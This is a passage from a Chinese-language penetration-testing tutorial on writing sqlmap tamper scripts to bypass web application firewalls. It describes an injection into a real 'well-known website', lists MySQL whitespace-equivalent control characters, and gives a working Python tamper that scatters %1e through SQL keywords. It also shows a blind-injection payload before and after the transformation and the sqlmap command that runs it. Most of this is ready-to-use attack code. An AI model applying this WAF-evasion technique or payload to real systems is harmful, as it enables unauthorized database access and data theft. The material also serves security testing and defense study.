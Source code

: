 它主要由 3 个部分组成。

* **priority**：代表优先级，当使用多个脚本时可定义执行顺序。

* dependencies：对依赖环境的声明，比如输出日志，可不写。

* tamper：主函数。payload 代表 sqlmap 自带的测试语句；kwargs 代表请求参数，可以用来修改 http 头信息。**tamper 主要是对原生 payload 做一些替换处理，这是绕过 WAF 的关键点**。

下面以某知名网站的 SQL 注入为例。常规的注入语句都被拦截了，后来在 fuzz 测试 WAF 时，发现使用一些特殊符号可以绕过 WAF（换行符也经常被用来绕过），而 MySQL 中有些特殊字符又相当于空格：
> %01, %02, %03, %04, %05, %06, %07, %08, %09, %0a, %0b, %0c, %0d, %0e, %0f, %10, %11, %12, %13, %14, %15, %16, %17, %18, %19, %1a, %1b, %1c, %1d, %1e, %1f, %20

我们尝试在每个 SQL 关键词中随机加个%1e。测试确认可绕过 WAF 后，接下来就是写 tamper 让 sqlmap 实现自动化绕过 WAF。

```python
import re
from lib.core.common import randomRange
from lib.core.data import kb  # kb 中存放着 sqlmap 的一些配置信息
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW
def tamper(payload, **kwargs):
    result = payload
    if payload:
        for match in re.finditer(r"\b[A-Za-z_]+\b", payload):
            word = match.group()
            if len(word) < 2:
                continue
            if word.upper() in kb.keywords:  # 判断是否属于 SQL 关键词
                str = word[0]
                for i in xrange(1, len(word) - 1):
                    str += "%s%s" % ("%1e" if randomRange(0, 1) else "", word[i])
                str += word[-1]
                if "%1e" not in str:
                    index = randomRange(1, len(word) - 1)
                    str = word[:index] + "%1e" + word[index:]
                result = result.replace(word, str)
    return result
```

上述代码会判断输入的字符串是否有 SQL 关键词，如果有就随机在关键词中间插入%1e。

假设原注入语句为：

```sql
and ascii(substr((select database()),1,1))>64
```

经转换后变成：

```sql
a%1end a%1escii(sub%1estr((s%1eelect da%1etabase()),1,1))>64
```

最后调用 sqlmap 执行即可：

```shell
./sqlmap.py -u url --tamper=bypasswaf.py --dbs
```
